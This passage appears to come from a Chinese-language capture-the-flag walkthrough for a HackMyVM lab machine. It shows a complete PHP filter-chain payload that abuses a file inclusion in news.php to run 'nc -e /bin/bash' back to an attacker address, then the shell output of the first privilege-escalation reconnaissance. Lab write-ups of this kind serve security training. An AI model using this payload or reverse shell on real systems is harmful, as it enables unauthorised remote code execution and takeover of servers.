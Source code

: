 ```bash
http://192.168.0.125/news.php?year=php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.iconv.UCS2.UTF-8|convert.iconv.CSISOLATIN6.UCS-4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP367.UTF-16|convert.iconv.CSIBM901.SHIFT_JISX0213|convert.iconv.UHC.CP1361|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.BIG5|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP367.UTF-16|convert.iconv.CSIBM901.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP367.UTF-16|convert.iconv.CSIBM901.SHIFT_JISX0213|convert.iconv.UHC.CP1361|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp&0=nc -e /bin/bash 192.168.0.143 1234
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202405071824585.png" alt="image-20240502155012835" style="zoom:67%;" />

## 提权

### 信息搜集

```bash
(remote) www-data@blackhat2.hmv:/var/www/html$ ls -la
total 852
drwxr-xr-x 2 root root   4096 Feb 26 10:19 .
drwxr-xr-x 4 root root   4096 Feb 26 10:19 ..
-rw-r--r-- 1 root root  31875 Feb 26 10:19 2021
-rw-r--r-- 1 root root  34213 Feb 26 10:19 2022
-rw-r--r-- 1 root root  36067 Feb 26 10:19 2023
-rw-r--r-- 1 root root 238753 Feb 26 10:19 dp.jpg
-rw-r--r-- 1 root root   4658 Feb 26 10:19 full-stack-apache-setup.xml
-rw-r--r-- 1 root root 485364 Feb 26 10:19 hacker.webp
-rw-r--r-- 1 root root    996 Feb 26 10:19 index.html
-rw-r--r-- 1 root root    996 Feb 26 10:19 index.php
-rw-r--r-- 1 root root   4560 Feb 26 10:19 news.php
-rw-r--r-- 1 root root   2332 Feb 26 10:19 style.css
(remote) www-data@blackhat2.hmv:/var/www/html$ head hacker.webp 
RIFF�gWEBPVP8 
_�+
   �*>1�B�!! �/��fwa?��y�A���,�7���%������]���
```